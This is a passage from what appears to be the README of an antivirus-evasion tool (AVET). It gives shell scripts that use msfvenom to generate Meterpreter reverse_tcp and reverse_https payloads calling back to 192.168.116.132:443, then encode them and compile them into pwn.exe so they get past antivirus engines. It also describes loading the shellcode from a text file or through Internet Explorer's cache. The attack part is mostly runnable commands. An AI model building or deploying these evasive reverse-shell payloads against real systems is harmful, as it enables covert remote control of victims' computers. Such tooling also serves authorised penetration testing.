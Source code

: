Example 3, 64bit payloads
-------------------------
Great to notice that still for 64bit payload no further evasion techniques has to be used. But -F should work here too.

```
#!/bin/bash          
# simple example script for building the .exe file
. build/global_win64.sh
# make meterpreter reverse payload
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.132 lport=443 -f c --platform Windows > sc.txt
# format the shellcode for make_avet
./format.sh sc.txt > scclean.txt && rm sc.txt
# call make_avet, compile 
./make_avet -f scclean.txt -X -E
$win64_compiler -o pwn.exe avet.c
# cleanup
rm scclean.txt && echo "" > defs.h
```

Example 4, load from a file
---------------------------
Here the ASCII encoder is needed. The executable will load the payload from a text file, which is enough for most AV engines to let the payload execute.

```
#!/bin/bash          
# simple example script for building the .exe file that loads the payload from a given text file
# include script containing the compiler var $win32_compiler
# you can edit the compiler in build/global_win32.sh
# or enter $win32_compiler="mycompiler" here
. build/global_win32.sh
# make meterpreter reverse payload, encoded with shikata_ga_nai
# additionaly to the avet encoder, further encoding should be used
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.116.132 lport=443 -e x86/shikata_ga_nai -f c -a x86 --platform Windows > sc.txt
# format the shellcode for make_avet
./format.sh sc.txt > thepayload.txt && rm sc.txt
# call make_avet, the -l compiles the filename into the .exe file 
./make_avet -l thepayload.exe -E
# compile to pwn.exe file
$win32_compiler -o pwn.exe avet.c
# cleanup
#echo "" > defs.h
# now you can call your programm with pwn.exe, thepayload.txt has to be in the same dir
```


Example 5, load with Internet Explorer
--------------------------------------
This is a bit tricky and might not work on the first shot. The executable will start Internet Explorer and download the ASCII encoded shellcode. Then the shellcode will be read from the cache directory and if found executed. This was tested with Windows 7 only.
